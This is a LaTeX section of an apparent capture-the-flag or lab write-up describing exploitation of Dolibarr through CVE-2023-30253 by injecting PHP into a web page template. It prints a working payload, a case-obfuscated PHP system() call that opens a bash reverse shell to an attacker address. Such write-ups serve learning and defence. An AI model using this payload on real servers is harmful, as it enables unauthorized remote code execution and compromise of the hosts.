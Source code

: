 \documentclass[12pt, letterpaper]{article}
\begin{document}
\section{Enumeration}
After a while of trying different functionalities, one in particular stood out. The web server facilitated
creating new web pages from a template. It allowed editing the HTML code, potentially
creating a serious attack vector.

It allowed the malicious user to add PHP code onto the web page. This vulnerability in
Dolibarr is known as \textbf{CVE-2023-30253}. \\

\includegraphics[width=\textwidth]{dolibarr-create-page.png} \\\\

Firsly, the new webpage under the localhost was created with the subdomain of 
as shown on the image above. Next, it was possible to add a template and edit its
source code. The following payload was added:

\begin{verbatim}
<?pHp system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.123/1234 0>&1'"); ?>
\end{verbatim}

\noindent It looked as follows: \\

\includegraphics[width=\textwidth]{ payload.png } \\\\

After saving the project, the server executed the code granting us the reverse shell. \\

\includegraphics[width=\textwidth]{ reverse-shell.png } \\\\
\end{document}
